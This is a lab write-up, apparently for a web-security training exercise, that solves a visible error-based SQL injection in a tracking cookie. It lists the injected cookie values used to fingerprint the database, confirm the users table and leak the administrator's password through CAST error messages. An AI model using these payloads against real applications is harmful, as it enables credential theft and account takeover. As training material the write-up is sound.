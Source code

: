 # Visible error-based SQL injection
# Objective
This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.\
\
The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.
# Solution
`Cookie value: TrackingId=0iC5ZQFbz6NG1ron'` returns HTTP 500 with VERBOSE information about error. Therefore application is vulnerable to SQL injection.
![](Images/image-24.png)

Expected query structure concerning TrackingId:\
```
SELECT * FROM tracking WHERE id = '0iC5ZQFbz6NG1ron'
```
## Identyfing database type (vendor)
```
Cookie value: TrackingId=0iC5ZQFbz6NG1ron' || (select '') ||’
```
|![](Images/image-25.png)|
|:--:| 
| The query above returns 200 OK therefore this is not Oracle database |

## Checking that the users table exists
```
Cookie value: TrackingId=0iC5ZQFbz6NG1ron' || (select '' from users limit 1) ||'
```
|![](Images/image-26.png)|
|:--:| 
| The query above returns 200 OK therefore `users` table exists |

## Checking that the user administrator exists
This can not be confirmed because query would be to long. Judging by responses on website, query has length limitation. 

## Tests and retrival of administrator's password
```
Cookie value: TrackingId=0iC5ZQFbz6NG1ron' AND CAST((SELECT 1) AS bool)--
```
|![](Images/image-27.png)|
|:--:| 
| Returns 200 OK |

```
Cookie value: TrackingId=0iC5ZQFbz6NG1ron' AND 1=CAST((SELECT 1) AS int)--
```
|![](Images/image-28.png)|
|:--:| 
| Returns 200 OK |

```
Cookie value: TrackingId=' AND CAST((SELECT username FROM users LIMIT 1) AS bool)--
```
|![](Images/image-29.png)|
|:--:| 
| The administrator is the first entry in the database therefore administrator’s password can be retrieved. |

```
Alternatively: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
|![](Images/image-30.png)|
|:--:| 
| The administrator is the first entry in the database therefore administrator’s password can be retrieved. |

```
Cookie value: TrackingId=' AND CAST((SELECT password FROM users LIMIT 1) AS bool)--
```
|![](Images/image-31.png)|
|:--:| 
| Retrieval of administrator's password |
